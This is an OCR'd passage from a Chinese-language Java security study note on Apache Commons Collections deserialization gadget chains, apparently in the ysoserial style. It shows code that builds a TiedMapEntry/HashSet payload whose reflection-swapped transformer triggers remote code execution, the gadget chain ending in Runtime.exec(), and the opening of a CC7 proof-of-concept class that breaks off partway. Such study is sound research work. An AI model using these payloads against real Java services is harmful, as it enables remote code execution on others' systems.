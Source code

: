         TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test");
        // 使用HashSet
        HashSet<Object> res = new HashSet<>();
        res.add(tiedMapEntry);

        // 最后再将真正触发RCE的transformer设置到chainedTransformer中
        Class<? extends ChainedTransformer> clazz = chainedTransformer.getClass();
        Field iTransformers = clazz.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(chainedTransformer,trueTransformer);

        // 因为HashSet#add()会执行hashMap#put()，最终会触发LazyMap#get()，导致LazyMap生成键值对{"test":1}，所以需要remove掉
        evalMap.remove("test");
        return res;
    }

调用链如下，可以看到，并不是最优的：

	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

### CC7
给出POC如下所示：

	package com.pinger.javasec.ysoserial;
	
	import com.pinger.javasec.util.SerialUtil;
	import org.apache.commons.collections.Transformer;
	import org.apache.commons.collections.functors.ChainedTransformer;
	import org.apache.commons.collections.functors.ConstantTransformer;
	import org.apache.commons.collections.functors.InvokerTransformer;
	import org.apache.commons.collections.map.LazyMap;
	import java.lang.reflect.Field;
	import java.util.HashMap;
	import java.util.Map;
	
	/**
	 * @author : p1n93r
	 * @date : 2021/4/2 17:28
	 * CC7 Gadget研究
	 * 底层也是LazyMap，只不过现在是利用HashTable的hash碰撞触发HashMap#hash(TiedMapEntry)
	 * 然后调用TiedMapEntry#hashCode()，进而触发TiedMapEntry#getValue()-->LazyMap#get()
	 */
	public class CC7 {
	